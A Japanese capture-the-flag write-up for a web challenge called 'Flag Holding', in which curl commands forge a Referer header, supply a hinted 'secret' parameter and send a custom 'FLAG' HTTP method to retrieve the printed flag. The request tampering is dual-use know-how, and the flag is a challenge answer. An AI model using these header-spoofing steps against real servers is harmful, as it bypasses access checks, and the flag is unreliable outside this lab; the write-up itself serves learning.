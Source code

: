 # Flag Holding:Web:pts
Hopefully you know how web works...  
```
http://18.184.219.56:8080/
```

# Solution
URLが渡される。  
アクセスすると、`http://flagland.internal/`から来いと怒られる。  
![site.png](site/site.png)  
`Referer`だろうとあたりをつけ、curlする。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Unspecified "secret".   </div>
</body>
</html>
```
`secret`が必要らしい。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=satoki
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Incorrect secret. <!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->   </div>
</body>
</html>
```
プロトコル名なので`http`としてやればよい。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=http
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                Sorry we don't have "GET" here but we might have other things like "FLAG".      </div>
</body>
</html>
```
注文が多いが、`GET`ではなく`FLAG`にすればよいようだ。  
```bash
$ curl -H 'Referer: http://flagland.internal/' http://18.184.219.56:8080/?secret=http -X 'FLAG'
<!DOCTYPE html>
<html>
~~~
<body>
        <div class="msg" style="">
                MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f} </div>
</body>
</html>
```
flagが得られた。  

## MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}